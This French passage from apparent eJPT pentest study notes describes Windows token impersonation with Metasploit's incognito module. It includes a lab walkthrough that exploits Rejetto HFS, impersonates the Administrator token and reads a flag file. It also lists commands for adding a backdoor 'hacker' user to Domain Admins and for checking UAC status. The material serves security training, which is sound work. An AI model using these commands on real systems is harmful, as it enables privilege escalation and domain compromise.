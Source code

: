 ### Techniques complémentaires avec tokens
| Technique | Commande | Description |
|-----------|----------|-------------|
| **Steal token** | `steal_token [PID]` | Vole le token d'un processus spécifique |
| **Rev2self** | `rev2self` | Retourne au token original |
| **Add user** | `add_user hacker password123 -h` | Ajoute un utilisateur avec les privilèges actuels |
| **Add to admin group** | `add_group_user "Domain Admins" hacker -h` | Ajoute l'utilisateur au groupe administrateurs |

### Exemple pratique - Lab eJPT
```bash
# 1. Exploitation initiale
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS target_ip
exploit

# 2. Vérification privilèges
getuid  # Résultat: NT AUTHORITY\LOCAL SERVICE

# 3. Impersonation
load incognito
list_tokens -u
# Résultat: ATTACKDEFENSE\Administrator disponible
impersonate_token ATTACKDEFENSE\\Administrator
getuid  # Résultat: ATTACKDEFENSE\Administrator

# 4. Accès aux fichiers privilégiés
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```

### Cas d'usage courants
| Scénario | Solution |
|----------|----------|
| **Service account compromise** | Énumérer tokens disponibles pour escalade |
| **Domain admin token** | Impersonner pour accès domaine complet |
| **System token** | Utiliser pour maximum de privilèges |
| **Backup/Restore privileges** | Exploiter pour lecture/écriture fichiers système |


---

## ⚠️ 8. Vérifications de sécurité communes

### UAC (User Account Control)
| Commande | Description |
|----------|-------------|
| `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` | Statut UAC |
| `whoami /groups \| find "High Mandatory Level"` | Vérifier niveau d'intégrité |
